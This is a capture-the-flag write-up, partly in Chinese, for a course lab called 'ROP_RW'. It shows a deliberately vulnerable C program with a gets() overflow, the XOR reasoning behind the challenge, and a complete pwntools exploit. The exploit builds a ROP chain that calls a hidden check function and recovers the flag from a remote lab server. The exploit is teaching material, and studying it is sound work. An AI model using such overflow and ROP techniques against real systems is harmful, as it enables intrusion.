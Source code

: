 ```yaml
---
title: Simple PWN 0x33(2023 Lab - ROP_RW)
tags: [eductf, CTF, PWN]

---
```


# Simple PWN 0x33(2023 Lab - ROP_RW)
## Background
ROP chain
## Source code
:::spoiler Source Code
```cpp
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <fcntl.h>

char flag[0x10];
long secret;
char empty_buf[0x30];

void check(char *input)
{
	char pass[0x10];
	char output[0x10];
	for (int i = 0; i < 2; ++i)
	{
		((long *)pass)[i] = ((long *)input)[i] ^ secret;
	}
	if (strcmp(pass, "kyoumokawaii") == 0)
	{
		for (int i = 0; i < 2; ++i)
			((long *)output)[i] = ((long *)flag)[i] ^ ((long *)pass)[i];
	}
	printf("flag = %s\n", output);
}

int main(void)
{
	setvbuf(stdin, 0, _IONBF, 0);
	setvbuf(stdout, 0, _IONBF, 0);
	int fd = 0;
	char buf[0x10];
	fd = open("/home/chal/flag.txt", O_RDONLY);
	read(fd, flag, 0x10);
	close(fd);

	fd = open("/dev/urandom", O_RDONLY);
	read(fd, &secret, sizeof(secret));
	for (int i = 0; i < 2; ++i)
		((long *)flag)[i] = ((long *)flag)[i] ^ secret;

	printf("secret = %lx\n", secret);
	printf("> ");
	gets(buf);

	return 0;
}

```
:::
## Recon
先看這個程式的行為，在main當中，他會打開flag.txt和urandom這兩個file，然後做兩者的XOR，並且回傳urandom的內容給我們，並且有BOF的漏洞存在
:::info
flag和secret這兩個變數都是global variable
:::
而check這個function的功能是我們可以輸入一個input，他會和secret做XOR，若結果等於==kyoumokawaii==就把前面加密過的flag再跟`kyoumokawaii`做XOR並回傳給我們

思路很簡單:
雖然整隻程式都沒有呼叫到check function，但如果我們拿到secret，又可以進到check，是否可以做一些操作拿到flag
一開始一定會做的事情是把flag加密
$$
cipher= flag \oplus secret\\
$$
如果可以進到check function
$$
input\leftarrow kyoumokawaii\oplus secret
$$
$$
output\leftarrow cipher\oplus kyoumokawaii=flag\oplus secret\oplus kyoumokawaii
$$
$$
flag = output\oplus secret\oplus kyoumokawaii
$$
此時`output`, `secret`都已知，我們反推出flag為何，但重點是要怎麼呼叫到check function?==ROP chain + BOF==

1. 先利用該隻binary的gadget蓋成我們需要的chain，並且隨便找一個區間是不太會寫入的bss section address
    ```
    check_fn_addr = 0x4017ba
    bss_section = 0x4c7f00
    pop_rdx_rbx_ret = 0x0000000000485e8b
    mov_qword_ptr_rdi_rdx_ret = 0x00000000004337e3
    pop_rdi_ret = 0x00000000004020af
    ...
    rop_chain = flat(
    pop_rdi_ret,        bss_section,
    pop_rdx_rbx_ret,    input_1,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section + 0x8,
    pop_rdx_rbx_ret,    input_2,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section,
    check_fn_addr
    )
    ```
2. 等到跳到check function後就可以開始接return output，並按照上面的公式回推flag
## Exploit - ROP + BOF
```python
from pwn import *
from Crypto.Util.number import bytes_to_long, long_to_bytes

# r = process('./chal')
r = remote('10.113.184.121', 10051)
context.arch = 'amd64'

r.recvuntil(b'secret = ')
secret = int(r.recvline().strip().decode(), 16)
log.info(f'secret = {hex(secret)}')

check_fn_addr = 0x4017ba
bss_section = 0x4c7f00
pop_rdx_rbx_ret = 0x0000000000485e8b
mov_qword_ptr_rdi_rdx_ret = 0x00000000004337e3
pop_rdi_ret = 0x00000000004020af

input_1 = u64(b'kyoumoka') ^ secret
input_2 = u64(b'waii\x00\x00\x00\x00') ^ secret
log.info(f'input_1 = {hex(input_1)}, input_2 = {hex(input_2)}')

rop_chain = flat(
    pop_rdi_ret,        bss_section,
    pop_rdx_rbx_ret,    input_1,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section + 0x8,
    pop_rdx_rbx_ret,    input_2,        0,
    mov_qword_ptr_rdi_rdx_ret,
    pop_rdi_ret,        bss_section,
    check_fn_addr
)
# raw_input()
r.sendlineafter(b'> ', b'a' * 40 + rop_chain)
r.recvuntil(b'flag = ')
output = r.recvline().strip()
log.info(f'output = {output}')
log.info(f'Part 1 = {hex(u64(output[0:8]))}, Part 2 = {hex(u64(output[8:16]))}')
flag_1 = p64(u64(output[0:8]) ^ input_1)
flag_2 = p64(u64(output[8:16]) ^ input_2)
log.info(f'flag = {(flag_1 + flag_2).strip().decode()}')

r.interactive()
```